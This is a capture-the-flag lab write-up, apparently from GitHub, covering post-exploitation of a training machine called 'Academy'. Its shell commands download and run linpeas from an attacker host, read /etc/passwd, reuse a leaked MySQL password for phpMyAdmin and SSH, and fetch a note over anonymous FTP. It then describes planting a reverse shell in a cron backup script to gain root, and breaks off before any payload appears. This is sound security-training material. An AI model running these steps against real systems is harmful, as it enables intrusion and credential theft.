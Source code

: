   * Getting back to the Academy machine access through www-data:

  ```shell
  cd /tmp #get to tmp directory to download script

  wget http://10.0.2.7/linpeas.sh #downloads the script

  chmod +x linpeas.sh #give executable permissions

  ./linpeas.sh #executes the script, we can look through the output
  #/home/grimmie/backup.sh is highlighted in red/yellow, so it could be important
  #gives mysql_password = "My_V3ryS3cur3_P4ss"

  cat /etc/passwd
  #shows that the user "grimmie" is administrator
  #on trying user "grimmie" and password "My_V3ryS3cur3_P4ss" on phpmyadmin, it works and we get access

  cat /home/grimmie/backup.sh
  #shows a script which contains info about backup files; the script is executed at a certain period
  
  #we can also attempt to login into ssh, as it was mentioned that the same password was being used everywhere
  #so in a new tab

  ssh grimmie@10.0.2.15
  #we get access
  ```

* Enumerating FTP on port 21:

  * We use ftp to connect to Academy machine:

  ```shell
  ftp 10.0.2.15
  #use username Anonymous and password anon

  ls
  #shows note.txt

  get note.txt

  exit
  #exit ftp, back in our system now

  cat note.txt
  #gives details related to the website portal on <http://10.10.2.15/academy>, including login details
  ```

* Now, as we have access to the machine as 'grimmie', we can use one-liner reverse shells and save it in the script ```backup.sh```, so that when it is executed again we get root access:

  * We can use any one-liner reverse shells from Google:

